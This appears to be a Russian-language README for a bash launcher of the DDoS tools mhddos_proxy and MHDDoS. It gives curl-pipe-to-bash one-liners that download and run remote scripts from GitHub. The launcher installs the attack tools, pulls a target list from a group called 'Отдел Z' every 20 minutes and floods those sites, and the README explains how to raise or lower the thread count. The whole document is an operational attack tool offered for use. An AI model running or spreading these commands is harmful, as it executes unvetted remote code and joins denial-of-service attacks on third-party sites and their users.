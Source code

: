 # Запустить скрипт

curl -s https://raw.githubusercontent.com/gruzilkinnn/dev_bash/master/runner.sh | bash
Автоматически устанавливает git python3, pip, mhddos_proxy, MHDDoS, расширенный список proxy и все зависимости.

Работает с базой сайтов Отдел Z.

База целей обновляется каждые 20 минут.

Во время запуска всегда проверяет и загружает обновления mhddos_proxy и MHDDoS.

Рекомендуется использовать на Ubuntu 20.04. Но должно работать на всех Ubuntu и Debian производных, а также в WSL2.

Для остановки скрипта несколько раз нажмите CTRL + C, или закройте окно с терминалом.

❕ Изменение интенсивности
Если скрипт очень замедляет ПК, или наоборот Вы имеете неиспользованные ресурсы, можно снизить, или наоборот повысить интенсивность работы скрипта. Для этого надо управлять параметром threads. По умолчанию threads = 1000.

Чтобы снизить нагрузку на систему, попробуйте использовать threads = 500

curl -s https://raw.githubusercontent.com/KarboDuck/mhddos_bash/master/runner.sh | bash -s -- 500
Чтобы загрузить систему больше, попробуйте использовать threads = 2000

curl -s https://raw.githubusercontent.com/KarboDuck/mhddos_bash/master/runner.sh | bash -s -- 2000
